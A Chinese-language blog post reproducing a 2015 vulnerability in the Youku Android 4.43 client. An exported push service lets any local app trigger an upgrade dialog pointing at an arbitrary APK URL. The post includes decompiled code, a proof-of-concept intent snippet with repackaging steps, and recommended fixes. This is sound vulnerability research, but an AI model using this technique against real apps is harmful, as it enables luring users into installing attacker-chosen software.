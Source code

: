```yaml
---
layout: post
title:  "优酷 Android 4.43客户端升级漏洞---复现"
categories: [bugs-dig,android] 
---
```




# 序言

4.5版本已经下载不到了,我找了一个4.43的版本。这版本是２０１５年的样子，现在都２０２４年了。

通过网盘分享的文件：youhu443_downcc.apk

链接: https://pan.baidu.com/s/1EN4mkPKu5uR_qgu57kuQiQ?pwd=n8j7 提取码: n8j7

安装在我安卓14的手机上,运行不起来.

安装在avd上也运行不起来,

所以没意义,QAQ



# 复现分析

wp: [优酷Android 4.5客户端升级漏洞](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2015-094635)



把apk托进iadx

组件com.youku.service.push.StartActivityService声明如下：

```
<service
android:label="Youku Push Notifications StartActivityService"  android:name="com.youku.service.push.StartActivityService" 
android:exported="true"
/>
```

可知该组件对外暴露。

该组件对应的代码执行部分如下

在文件 com.youku.service.push.StartActivityService.java中

```java
    @Override // android.app.IntentService
    protected void onHandleIntent(Intent i) {
        Intent i2;
        String track_id;
        final PushMsg msg = (PushMsg) i.getSerializableExtra("PushMsg");
        if (msg.mid != null) {
            String action = i.getStringExtra("action");
            PushUtils.notificationOpenFeedback(msg.mid, msg.type, action);
        }
        AppVersionManager.getInstance(Youku.context).showAppAgreementDialog();
        switch (msg.type) {
            case 1:
                i.setFlags(876609536);
                i.setClass(this, UpdateActivity.class);
                i.putExtra(UpdateActivity.KEY_URL, msg.updateurl);
                i.putExtra(UpdateActivity.KEY_NEW_VERSION, msg.updateversion);
                i.putExtra(UpdateActivity.KEY_CONTENT, msg.updatecontent);
                i.putExtra(UpdateActivity.KEY_UPDATE_TYPE, 2);
                startActivity(i);
                return;

```

　　我们可以发现从代码`i.getSerializableExtra("PushMsg")`中获知, Intent从获取名为**PushMsg**的Serializable的数据，并根据其成员type来执行不同的流程，当type值为1时，执行App的升级操作。升级所需的相关数据如app的下载地址等也是从该序列化数据中获取。

　　通过代码`i.setClass(this, UpdateActivity.class);`知, 升级的具体流程在com.youku.ui.activity.UpdateActivity中，简单分析后发现升级过程未对下载地址等进行判断，因此可以任意指定该地址。

　　在`com.youku.ui.activity.UpdateActivity`中,

```java
   @Override // android.app.Activity
    protected void onCreate(Bundle savedInstanceState) {
        requestWindowFeature(1);
        super.onCreate(savedInstanceState);
        Logger.d(TAG, "UpdateActivity.onCreate()");
        LayoutInflater mInflater = LayoutInflater.from(this);
        LinearLayout rootView = (LinearLayout) mInflater.inflate(R.layout.updateactvity, (ViewGroup) null);
        setContentView(rootView);
        Intent i = getIntent();
        if (i != null) {
            String url = i.getStringExtra(KEY_URL);
            String version = i.getStringExtra(KEY_NEW_VERSION);
            String content = i.getStringExtra(KEY_CONTENT);
            if (content == null) {
                content = "";
            }
            int updateType = -2;
            if (i.hasExtra(KEY_UPDATE_TYPE)) {
                updateType = i.getIntExtra(KEY_UPDATE_TYPE, 2);
            }
            UpdateManager um = new UpdateManager(this);
            if (updateType == 3) {
                um.setUpdateInfo(url, version, content, UpdateManager.UpdateType.force);
            } else if (updateType == 2) {
                um.setUpdateInfo(url, version, content, UpdateManager.UpdateType.push);
            } else if (updateType == -2) {
                um.setUpdateInfo(url, version, content, UpdateManager.UpdateType.check);
            } else {
                finish();
                return;
            }
            um.showNoticeDialog();
            return;
        }
        finish();
    }

```

先获取传递过来的Intent参数信息

然后做一些简单的判断,然后调用`UpdateManager.setUpdateInfo`, 期间并没有做一些检查

然后调用`UpdateManager.showNoticeDialog`提醒用户升级之类的



# 如何利用

　　该漏洞触发的关键在于对PushMsg数据的控制，基本思路如下：

　　创建一个Android App程序(但是得和YouKu app处于同一设备中,QAQ)，在主Activity中的关键代码如下：

```
PushMsg pushMsg = new PushMsg();
pushMsg.type = 1;
pushMsg.updateurl = "http://gdown.baidu.com/data/wisegame/41839d1d510870f4/jiecaojingxuan_51.apk";
//url传递为我们要指定那种的apk
pushMsg.updatecontent = "This is Fake";
		
Intent intent = new Intent();
intent.setClassName("com.youku.phone","com.youku.service.push.StartActivityService");
intent.putExtra("PushMsg", pushMsg);
startService(intent);//从外部启动YOuKu的service
```

　　其中PushMsg类不需要完整实现，只需要编译通过即可；

　　反编译优酷客户端的App得到smali代码，从中提取出PushMsg.smali；

　　反编译上述创建的APK文件，将原PushMsg类的smali文件替换为优酷中的PushMsg.smali文件，重新打包签名；　　

　　安装并运行重打包后的APK，会看到优酷的升级页面触发，如果设计的好的话，是可以诱导用户安装攻击者指定的APK文件的。



# 修复

组件不暴露、对升级地址（ＵＲＬ）进行判断、对下载的APK文件进行校验！

小结：

软件的升级是ａｐｐ的必备功能，那么这将是我们以后的漏洞挖掘方向．